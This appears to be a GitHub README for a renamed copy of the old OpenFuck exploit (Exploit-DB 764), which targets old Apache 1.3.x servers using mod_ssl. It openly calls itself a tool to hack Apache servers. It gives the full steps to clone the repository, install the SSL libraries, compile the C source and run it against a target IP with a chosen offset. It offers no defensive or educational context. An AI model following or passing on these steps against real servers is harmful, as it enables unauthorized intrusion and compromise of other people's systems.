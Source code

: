 # Open6uck
Original Name is OpenFuck, but i changed it for some reasons.
```
This is a exploit to hack apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download 764.c
~~~
git clone https://github.com/dillu345/OpenFuck.git
~~~
2. Install libssl-dev & libssl1.0dev
~~~
apt install libssl-dev
apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
